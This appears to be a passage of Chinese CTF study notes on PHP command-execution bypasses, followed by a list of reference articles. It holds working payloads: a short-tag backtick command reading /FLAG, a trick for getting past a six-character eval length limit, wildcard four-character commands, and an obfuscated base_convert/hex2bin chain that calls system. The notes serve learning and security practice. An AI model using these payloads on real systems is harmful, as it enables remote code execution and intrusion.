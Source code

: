 ```php
实际上等价于:
$_=`/bin/cat /FLAG`;?><?=$_?>

<?=$_?> 实际上这串代码等价于<? echo $_?>
实际上,当 php.ini 中的 short_open_tag 开启的时候,<? ?> 短标签就相当于 <?php ?>,<?=$_?> 也等价于 <? echo $_?>
```
[CTF题目思考--极限利用](https://www.anquanke.com/post/id/154284)
[命令执行与代码执行的小结 ](https://www.anquanke.com/post/id/162128)

花括号的别样用法：
![](https://img-blog.csdnimg.cn/20200313130312550.png)
```
$( )中放的是命令，相当于` `,例如todaydate=$(date +%Y%m%d)意思是执行date命令,返回执行结果给变量todaydate,也可以写为todaydate=`date +%Y%m%d`;
${ }中放的是变量，例如echo ${PATH}取PATH变量的值并打印，也可以不加括号比如$PATH
```

**一个考点，记录一下：(php反引号命令执行)**
```php
<?php
    if(isset($_GET['cc'])){
        $cc = $_GET['cc'];
        eval(substr($cc, 0, 6));
    }
    else{
        highlight_file(__FILE__);
    }
?>
```
`eval(substr($cc, 0, 6));`他只执行`$cc`的前6个字符，但是可以利用
```
`$cc`;xxxxxxxxxx
```
xxxxx为执行的命令

**四个字符的用法：**
![](https://p2.ssl.qhimg.com/t01947fe24ad16c4d98.png)
```bash
>cat
* /*
```

[巧用命令注入的N种方式](https://blog.zeddyu.info/2019/01/17/命令执行)
参考文章：
[DNSlog盲注](http://www.pdsdt.lovepdsdt.com/index.php/2020/11/04/dnslog/)
[RCE Bypass小结](http://www.pdsdt.lovepdsdt.com/index.php/2020/12/08/rce-bypass/)
[命令执行绕过总结](https://mp.weixin.qq.com/s/6E2fXnuHkBt_fgRZL6z7bA)
[巧用命令注入的N种方式](https://blog.zeddyu.info/2019/01/17/%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C/)
[浅谈PHP无回显命令执行的利用](https://xz.aliyun.com/t/8125)
[CTF命令执行及绕过技巧](https://blog.csdn.net/JBlock/article/details/88311388)
[Bypass一些命令注入限制的姿势](https://xz.aliyun.com/t/3918)
[巧用DNSlog实现无回显注入](https://www.cnblogs.com/afanti/p/8047530.html)
[ctf中常见php rce绕过总结](https://xz.aliyun.com/t/8354)
[Bypass一些命令注入限制的姿势](https://xz.aliyun.com/t/3918)
[eval长度限制绕过 && PHP5.6新特性](https://www.leavesongs.com/PHP/bypass-eval-length-restrict.html)
[命令执行与代码执行的小结](https://www.anquanke.com/post/id/162128)
#### 白名单函数构造
一种payload是这样：
```php
$pi=base_convert(37907361743,10,36)(dechex(1598506324));($$pi){pi}(($$pi){abs})&pi=system&abs=tac flag.php
```
分析：
```
base_convert(37907361743,10,36) => "hex2bin"
```